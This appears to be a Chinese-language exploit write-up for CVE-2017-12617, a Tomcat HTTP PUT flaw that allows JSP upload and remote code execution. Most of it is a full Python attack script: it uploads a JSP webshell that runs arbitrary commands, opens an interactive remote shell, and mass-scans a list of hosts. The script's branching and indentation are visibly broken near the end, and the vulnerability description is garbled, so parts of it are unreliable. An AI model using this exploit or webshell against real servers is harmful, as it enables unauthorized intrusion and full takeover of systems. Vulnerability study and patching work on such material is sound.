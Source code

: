 （CVE-2017-12617）Tomcat RCE via JSP Upload Bypass
==================================================

一、漏洞简介
------------

Apache
Tomcat版本9.0.0.M1至9.0.0、8.5.0至8.5.22、8.0.0.RC1至8.0.46和7.0.0至7.0.81且启用HTTP
PUT时（例如，通过设置只读如果将Default
servlet的初始化参数设置为false，则可以通过特制请求将JSP文件上载到服务器。然后可以请求此JSP，并且服务器将执行其中包含的所有代码。

二、漏洞影响
------------

Apache Tomcat版本9.0.0.M1至9.0.0Apache Tomcat版本8.5.0至8.5.22Apache Tomcat版本8.0.0.RC1至8.0.46Apache Tomcat版本7.0.0至7.0.81

三、复现过程
------------

**msf自带的有利用脚本，懒省事可以直接用msf**![QQ截图20200521185636.png](./resource/(CVE-2017-12617)TomcatRCEviaJSPUploadBypass/media/rId24.png)

### poc

**useage**

    ./cve-2017-12617.py -u http://www.0-sec.org
    ./cve-2017-12617.py --url http://www.0-sec.org
    ./cve-2017-12617.py -u http://www.0-sec.org -p pwn
    ./cve-2017-12617.py --url http://www.0-sec.org -pwn pwn
    ./cve-2017-12617.py -l hotsts.txt
    ./cve-2017-12617.py --list hosts.txt
    #!/usr/bin/python
    import requests
    import re
    import signal
    from optparse import OptionParser






    class bcolors:
        HEADER = '\033[95m'
        OKBLUE = '\033[94m'
        OKGREEN = '\033[92m'
        WARNING = '\033[93m'
        FAIL = '\033[91m'
        ENDC = '\033[0m'
        BOLD = '\033[1m'
        UNDERLINE = '\033[4m'




    banner="""
       _______      ________    ___   ___  __ ______     __ ___   __ __ ______ 
      / ____\ \    / /  ____|  |__ \ / _ \/_ |____  |   /_ |__ \ / //_ |____  |
     | |     \ \  / /| |__ ______ ) | | | || |   / /_____| |  ) / /_ | |   / / 
     | |      \ \/ / |  __|______/ /| | | || |  / /______| | / / '_ \| |  / /  
     | |____   \  /  | |____    / /_| |_| || | / /       | |/ /| (_) | | / /   
      \_____|   \/   |______|  |____|\___/ |_|/_/        |_|____\___/|_|/_/    
                                                                               
                                                                               
    [@intx0x80]
    """





    def signal_handler(signal, frame):

        print ("\033[91m"+"\n[-] Exiting"+"\033[0m")

        exit()

    signal.signal(signal.SIGINT, signal_handler)




    def removetags(tags):
      remove = re.compile('<.*?>')
      txt = re.sub(remove, '\n', tags)
      return txt.replace("\n\n\n","\n")


    def getContent(url,f):
        headers = {'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/39.0.2171.95 Safari/537.36'}
        requests.packages.urllib3.disable_warnings()
        re=requests.get(str(url)+"/"+str(f), headers=headers,verify=False)
        return re.content

    def createPayload(url,f):
        evil='<% out.println("AAAAAAAAAAAAAAAAAAAAAAAAAAAAA");%>'
        headers = {'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/39.0.2171.95 Safari/537.36'}
        requests.packages.urllib3.disable_warnings()
        req=requests.put(str(url)+str(f)+"/",data=evil, headers=headers,verify=False)
        if req.status_code==201:
            print "File Created .."

       
    def RCE(url,f):
        EVIL="""<FORM METHOD=GET ACTION='{}'>""".format(f)+"""
        <INPUT name='cmd' type=text>
        <INPUT type=submit value='Run'>
        </FORM>
        <%@ page import="java.io.*" %>
        <%
       String cmd = request.getParameter("cmd");
       String output = "";
       if(cmd != null) {
          String s = null;
          try {
             Process p = Runtime.getRuntime().exec(cmd,null,null);
             BufferedReader sI = new BufferedReader(new
    InputStreamReader(p.getInputStream()));
             while((s = sI.readLine()) != null) { output += s+"</br>"; }
          }  catch(IOException e) {   e.printStackTrace();   }
       }
    %>
    <pre><%=output %></pre>"""


        
        headers = {'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/39.0.2171.95 Safari/537.36'}
        requests.packages.urllib3.disable_warnings()
        req=requests.put(str(url)+f+"/",data=EVIL, headers=headers,verify=False)
        


    def shell(url,f):
        
        while True:
            headers = {'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/39.0.2171.95 Safari/537.36'}
            cmd=raw_input("$ ")
            payload={'cmd':cmd}
            if cmd=="q" or cmd=="Q":
                    break
            requests.packages.urllib3.disable_warnings()
            re=requests.get(str(url)+"/"+str(f),params=payload,headers=headers,verify=False)
            re=str(re.content)
            t=removetags(re)
            print t





    #print bcolors.HEADER+ banner+bcolors.ENDC

    parse=OptionParser(


    bcolors.HEADER+"""
       _______      ________    ___   ___  __ ______     __ ___   __ __ ______ 
      / ____\ \    / /  ____|  |__ \ / _ \/_ |____  |   /_ |__ \ / //_ |____  |
     | |     \ \  / /| |__ ______ ) | | | || |   / /_____| |  ) / /_ | |   / / 
     | |      \ \/ / |  __|______/ /| | | || |  / /______| | / / '_ \| |  / /  
     | |____   \  /  | |____    / /_| |_| || | / /       | |/ /| (_) | | / /   
      \_____|   \/   |______|  |____|\___/ |_|/_/        |_|____\___/|_|/_/    
                                                                               
                                                                               
    ./cve-2017-12617.py [options]
    options:
    -u ,--url [::] check target url if it's vulnerable 
    -p,--pwn  [::] generate webshell and upload it
    -l,--list [::] hosts list
    [+]usage:
    ./cve-2017-12617.py -u http://127.0.0.1
    ./cve-2017-12617.py --url http://127.0.0.1
    ./cve-2017-12617.py -u http://127.0.0.1 -p pwn
    ./cve-2017-12617.py --url http://127.0.0.1 -pwn pwn
    ./cve-2017-12617.py -l hotsts.txt
    ./cve-2017-12617.py --list hosts.txt
    [@intx0x80]
    """+bcolors.ENDC

        )


    parse.add_option("-u","--url",dest="U",type="string",help="Website Url")          
    parse.add_option("-p","--pwn",dest="P",type="string",help="generate webshell and upload it")
    parse.add_option("-l","--list",dest="L",type="string",help="hosts File")

    (opt,args)=parse.parse_args()

    if opt.U==None and opt.P==None and opt.L==None:
        print(parse.usage)
        exit(0)



    else:
        if opt.U!=None and opt.P==None and opt.L==None:
            print bcolors.OKGREEN+banner+bcolors.ENDC 
            url=str(opt.U)
            checker="Poc.jsp"
            print bcolors.BOLD +"Poc Filename  {}".format(checker)
            createPayload(str(url)+"/",checker)
            con=getContent(str(url)+"/",checker)
            if 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAA' in con:
                print bcolors.WARNING+url+' it\'s Vulnerable to CVE-2017-12617'+bcolors.ENDC
            print bcolors.WARNING+url+"/"+checker+bcolors.ENDC
            
        else:
                print 'Not Vulnerable to CVE-2017-12617 '
        elif opt.P!=None and opt.U!=None and  opt.L==None:
                    print bcolors.OKGREEN+banner+bcolors.ENDC 
            pwn=str(opt.P)
            url=str(opt.U)
            print "Uploading Webshell ....."
            pwn=pwn+".jsp"
            RCE(str(url)+"/",pwn)
            shell(str(url),pwn)
        elif opt.L!=None and opt.P==None and opt.U==None:
                    print bcolors.OKGREEN+banner+bcolors.ENDC 
            w=str(opt.L)
            f=open(w,"r")
            print "Scaning hosts in {}".format(w)
            checker="Poc.jsp"
            for i in f.readlines():
                i=i.strip("\n")
                createPayload(str(i)+"/",checker)
                con=getContent(str(i)+"/",checker)
                if 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAA' in con:
                    print str(i)+"\033[91m"+" [ Vulnerable ] ""\033[0m"
